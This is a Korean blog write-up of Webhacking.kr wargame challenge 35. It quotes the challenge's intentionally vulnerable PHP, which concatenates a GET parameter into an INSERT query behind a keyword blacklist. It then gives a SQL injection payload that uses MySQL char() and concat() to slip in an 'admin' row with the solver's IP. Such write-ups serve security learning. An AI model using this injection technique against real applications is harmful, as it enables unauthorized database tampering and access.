 ```yaml
---
layout: post
title: "[풀이] Webhacking.kr 35번 문제"
description: ""
date: 2017-06-02
tags: []
comments: true
share: true
---
```


35번 문제는 350 스코어의 문제입니다.

  

문제의 힌트 코드는 아래와 같습니다.

코드를 읽어보면 첫번째로 get 메소드의 phone 파라미터가 참일 경우 `challenge35_list` 테이블에 레코드를 생성한다.

이후 `admin_ck` 라는 변수에 challenge35_list 테이블에 조건에 따른 레코드를 대입한다.

조건은 id는 admin 이어야하고, ip는 본인의 아이피여야합니다.

  

대입된 변수의 `ip` 가 본인의 아이피와 동일하다면 문제를 해결 할 수 있습니다.

  

몇번의 요청 중, webhacking.kr 이 php magic quotes 옵션이 켜져있어 quote 를 사용할 수 없음을 알 았습니다.

만약 옵션이 꺼져있었다면 핵스값으로 문자열을 표현하거나 MySQL의 char함수를 통하여 문자를 만들고, concat 함수를 통해 해당
문자를 연결해야합니다.

  

아래는 "php magic quotes" 에 대한 설명입니다.

  

> Magic Quotes is a process that automagically escapes incoming data to the
PHP script. It's preferred to code with magic quotes off and to instead escape
the data at runtime, as needed.

  

phone:3063),('admin','1.1.1.1', 3072

  

하지만 코드를 보면 알 듯이 전자는 이미 필터링이 되어있으니 후자로 진행을해야합니다.

  

phone 파라미터의 입력된 값은 아래와 같다. (아스키 코드로 치환된 admin,아이피)

e.g. "1),(concat(char(97,100,109,105,110)),concat(char(49,46,50,53,53,46,50,52
,46,52,57)),1"

  

    if($_GET[phone]){if(eregi("%|\*|/|=|from|select|x|-|#|\(\(",$_GET[phone])) exit("no hack");@mysql_query("insert into challenge35_list(id,ip,phone) values('$_SESSION[id]','$_SERVER[REMOTE_ADDR]',$_GET[phone])") or die("query error");echo("Done");}$admin_ck=mysql_fetch_array(mysql_query("select ip from challenge35_list where id='admin' and ip='$_SERVER[REMOTE_ADDR]'"));if($admin_ck[ip]==$_SERVER[REMOTE_ADDR]){@solve();@mysql_query("delete from challenge35_list");}$phone_list=@mysql_query("select * from challenge35_list where ip='$_SERVER[REMOTE_ADDR]'");echo("");

  

클리어.

  

![](/assets/images/posts/759/2713533A59311AFC3859B3.JPEG)

  

  

